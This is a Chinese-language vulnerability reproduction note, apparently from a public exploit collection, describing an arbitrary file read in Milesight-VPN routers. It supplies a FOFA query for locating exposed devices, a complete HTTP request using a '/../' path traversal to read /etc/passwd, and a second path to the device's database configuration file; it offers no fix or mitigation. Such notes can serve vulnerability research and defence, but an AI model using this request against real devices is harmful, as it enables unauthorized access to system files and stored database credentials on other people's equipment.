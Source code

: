 # Milesight-VPN任意文件读取漏洞

# 一、漏洞简介
Milesight-VPN是由Milesight Technology Co., Ltd.开发的一种集成了VPN功能的路由器产品。它旨在为用户提供安全、可靠的远程访问和连接解决方案。Milesight-VPN存在任意文件读取，攻击者可以通过利用系统中存在的漏洞，获取未经授权的访问权限并读取系统上的任意文件。

# 二、影响版本
+ Milesight-VPN

# 三、资产测绘
+ fofa`app="Milesight-VPN"`
+ 特征

![1694363541225-b2d7009f-1a45-440f-9ce4-b9886ca6d50f.png](./img/hnnyUMi80IkIJfou/1694363541225-b2d7009f-1a45-440f-9ce4-b9886ca6d50f-861710.png)

# 四、漏洞复现
```plain
GET  /../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1694363570704-5a0d5f4f-fc61-4977-80fc-964096a5034a.png](./img/hnnyUMi80IkIJfou/1694363570704-5a0d5f4f-fc61-4977-80fc-964096a5034a-296494.png)

数据库配置

```java
/../milesight_vpn/server/connect.js
```



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pp2gsuw28o5qcs9l>
